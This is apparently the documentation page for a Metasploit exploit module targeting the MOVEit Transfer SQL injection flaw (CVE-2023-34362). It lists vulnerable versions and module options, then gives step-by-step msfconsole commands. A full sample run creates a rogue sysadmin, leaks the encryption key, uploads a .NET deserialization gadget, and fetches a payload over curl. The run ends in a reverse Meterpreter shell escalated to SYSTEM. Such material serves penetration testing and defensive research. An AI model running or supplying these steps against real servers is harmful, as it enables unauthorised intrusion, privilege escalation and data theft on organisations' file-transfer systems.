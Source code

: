 ## Description
This module exploits an SQL injection vulnerability in the MOVEit Transfer web application
that allows an unauthenticated attacker to gain access to MOVEit Transfer’s database. 
Depending on the database engine being used (MySQL, Microsoft SQL Server, or Azure SQL), an
attacker can leverage an information leak be able to upload a .NET deserialization payload.

## Vulnerable Applications
MOVEit Transfer versions:

| Starting Version | Patched Version     |
|------------------|---------------------|
| 2023.0.0         | 2023.0.3 (15.0.3)   |
| 2022.1.x         | 2022.1.7 (14.1.7)   |
| 2022.0.x         | 2022.0.6 (14.0.6)   |
| 2021.1.x         | 2021.1.6 (13.1.6)   |
| 2021.0.x         | 2021.0.8 (13.0.8)   |
| 2020.1.x         | 2020.1.10 (12.1.10) |

# Installation Instructions
1. Installation requires a valid trial license that can be obtained by going here:
https://www.ipswitch.com/forms/free-trials/moveit-transfer
2. Ensure that your computer has intenet access for the license to activate and double-click the installer.
3. Follow installation instructions for an evaluation installation.
4. After the installation completes, follow the instructions to create an admin user.

## Options
**LOGIN_NAME**  (Required) Will be used as the login name for the system administrator created by the exploit.  The default is random.

**PASSWORD**    (Required) Will be used as the password name for the system administrator created by the exploit.  The default is random.

**USERNAME**    (Required) Will be used as the user name for the system administrator created by the exploit.  The default is random.

## Verification Steps
* Do: `msfconsole`
* Do: `use exploit/windows/http/moveit_cve_2023_34362`
* Do: `set rhost <rhost>`
* Do: `set lhost <lhost>`
* Do: `set fetch_srvhost <srvhost>`
* Do: `set lhost <lhost>`
* Do: `run`
* Do: **Verify** you get a session

## Scenarios
### Using MOVEit 15.0.0.3 on Windows Server 2022 21H2
```msf
msf6 exploit(windows/http/moveit_cve_2023_34362) > show options

Module options (exploit/windows/http/moveit_cve_2023_34362):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   LOGIN_NAME  CGN3c8hSeaE      yes       Login Name
   PASSWORD    pnislnpdAWX      yes       Password
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.5.134.242     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                          tasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /api/v1/token    no        Target URI
   USERNAME    wtxRmr5vw        yes       Username
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      lebHSskcwh       no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       10.5.135.201     yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.5.135.201     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/moveit_cve_2023_34362) > run

[*] Started reverse TCP handler on 10.5.135.201:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] [0/10] Get the sessionID and siLockLongTermInstID
[*] [1/10] Create New Sysadmin
[*] [2/10] Get API Token
[*] [3/10] Get Folder ID
[*] [4/10] Begin File Upload
[*] [5/10] Leak Encryption Key
[*] [6/10] Generate Gadget
[*] [7/10] Encrypt Gadget
[*] [8/10] Upload Encrypted Gadget
[*] [9/10] Trigger Gadget
[*] [10/10] Cleaning Up
[*] Sending stage (200774 bytes) to 10.5.134.242
[*] Meterpreter session 1 opened (10.5.135.201:4444 -> 10.5.134.242:51176) at 2023-06-21 15:35:47 -0500

meterpreter > sysinfo
Computer        : WIN-ED9OLD6JEO6
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 12
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-ED9OLD6JEO6\moveitsvc
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
